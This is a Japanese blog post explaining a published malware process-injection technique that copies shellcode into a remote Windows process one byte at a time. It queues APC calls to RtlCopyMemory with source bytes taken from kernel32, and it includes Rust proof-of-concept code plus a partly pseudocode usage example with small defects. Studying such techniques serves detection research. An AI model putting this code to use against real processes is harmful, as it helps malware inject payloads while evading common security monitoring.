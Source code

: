 +++
title = "Write系コールを使わずにリモートプロセスにメモリをコピーする"
template = "page.html"
date = 2021-04-28T13:00:00Z
slug = "writeless-copy-memory"
[taxonomies]
tags = ["rust", "malware", "injection"]
[extra]
summary = " "
+++

### 概要

マルウェアのインジェクションについて調べていたら、面白い記事を発見しました。

> [Inject Me x64 Injection-less Code Injection](https://www.deepinstinct.com/2019/07/24/inject-me-x64-injection-less-code-injection/)

インジェクションレスなインジェクション？ は？

冗談はさておき、従来のアプローチである`WriteProcessMemory`や`NtMapViewOfSection`などを使用せずに、リモートプロセスにメモリをコピーすることが出来るようです。

記事中では複雑な手順と書かれていましたが、読んでみるとそこまで大した複雑さではありませんでした。

簡単に手順をまとめると次のようになります。

1. Sleep関数を呼ぶリモートスレッドを一時停止状態で作成する
2. `RtlCopyMemory`の関数ポインタを見つける
3. `NtQueueApcThreadEx`のAPCルーチンに`RtlCopyMemory`を指定し、3つのパラメータを埋める
4. `WaitForSingleObjectEx`または類似の関数をコールして、スレッドのアラートをトリガーする

さて、これを見ると一見簡単そうに見えますが、お気づきになりましたでしょうか。

3の手順の`RtlCopyMemory`で、`src`はどうするの？という話です。

`RtlCopyMemory`はリモートプロセスでコールされるため、`src`に渡す仮想アドレスはリモートプロセス内の仮想アドレスを指すことになります。

例えば自分のプロセス内にあるシェルコードのバッファーをコピーしたい時、これをどのように渡すのでしょうか？

これの解決策は、システムDLLのロード仕様を悪用する、が答えです。

`kernel32.dll`や`ntdll.dll`は、全てのプロセスで同じ仮想アドレスの場所に配置される仕様があります。

これを利用し、システムDLLのバッファー内にあるOPコードを1バイトずつコピーすることが出来ます。

`NtQueueApcThreadEx`を呼び出す回数 = APCキューの数 = コピーしたいメモリの長さ になります。

### PoCコード

```rust
unsafe fn queueing<F: Fn(HANDLE) -> Result<()>>(hp: HANDLE, sleep: PVOID, closure: F) -> Result<()> {
    // スレッドを一時停止状態のフラグ付きで作成
    // Sleep関数を開始ルーチンに設定し、1msだけSleepするようにパラメータを渡す
    let h_thread = CreateRemoteThread(
        hp,
        null_mut(),
        0,
        std::mem::transmute(sleep),
        1u32 as _,
        0x4,
        NULL as _,
    );

    if h_thread.is_null() {
        bail!("CreateRemoteThread failed.");
    } else {
        println!("created thread. thread_id {}", thread_id);
    };

    // コピー処理クロージャ
    closure(h_thread)?;

    // スレッドの一時停止状態を解除
    ResumeThread(h_thread);

    // スレッドのアラートをトリガーすることで、APCキューが一つずつ処理されていく
    WaitForSingleObjectEx(h_thread, 0xFFFFFFFF, true as _);

    Ok(())
}

unsafe fn copy_by_apc(h_thread: HANDLE, RtlCopyMemory: PVOID, src: PVOID, dst: PVOID, size: usize) {
    // RtlCopyMemoryをAPCルーチンに設定
    // コピー先とコピー元の引数を間違えないように注意
    NtQueueApcThreadEx(h_thread, null_mut(), transmute(RtlCopyMemory), dst, src, size as _);
}

// OPコードはu8、つまり0x00~0xFFであることは事前にわかっているため、
// 同じOPコードを何度も探しに行かなくて済むように探索結果をキャッシュ出来る
use std::lazy::OnceCell;
static mut CACHE: OnceCell<[*mut c_void; 0xFF]> = OnceCell::new();
 
unsafe fn get_op_by_module(module: PVOID, op: u8) -> Result<*mut c_void> {
    // CACHEが初期化されてない場合、初期化
    // これを呼ばずに先に初期化できるといいんですけど...
    let _ = CACHE.get_or_init(|| {
        zeroed::<[*mut c_void; 0xFF]>()
    });

    let cache = CACHE.get_mut().unwrap();

    if cache[op as usize].is_null() {
        let nt_header = (module as u64
            + (*(module as *mut IMAGE_DOS_HEADER)).e_lfanew as u64)
            as *mut IMAGE_NT_HEADERS64;

        for i in 0 .. (*nt_header).OptionalHeader.SizeOfImage {
            if *((module as u64 + i as u64) as *mut u8) == op {
                let op_addr = (module as u64 + i as u64) as *mut c_void;

                // ここでCACHEに結果を保存
                cache[op as usize] = op_addr;
                return Ok(op_addr);
            }
        }
    } else {
        // CACHEに結果が既にある場合はそのアドレスを使用する
        return Ok(cache[op as usize]);
    }

    bail!("not found op in module")
}
```

#### 使用例

一部疑似コードのため、そのままでは動きません。

```rust
// 使用例
unsafe fn main() -> Result<()> {
    let dst: Vec<u8> = get_binary_from_somewhere... ;
    let kernel32 = load_library...("kernel32.dll\x00");
    let sleep = get_function...(kernel32, "Sleep\x00");
    let rtl_copy_memory= get_function...(kernel32, "RtlCopyMemory\x00");
 
    let hp = OpenProcess... ;
    let allocated = VirtualAllocEx... ;
 
    queueing(hp, sleep, |ht| {
        for (i, op) in dst.iter().enumerate() {
            let op_addr = get_op_by_module(kernel32, *op)?;
            copy_by_apc(ht, rtl_copy_memory, op_addr, (allocated as u64 + i as u64) as _, 1);
        }
        Ok(())
    })?;
 
    Ok(())
}
```

これで、従来のようなメモリコピー手順をしなくてもリモートプロセスにメモリをコピー出来ます。

参考: [Inject Me x64 Injection-less Code Injection](https://www.deepinstinct.com/2019/07/24/inject-me-x64-injection-less-code-injection/)
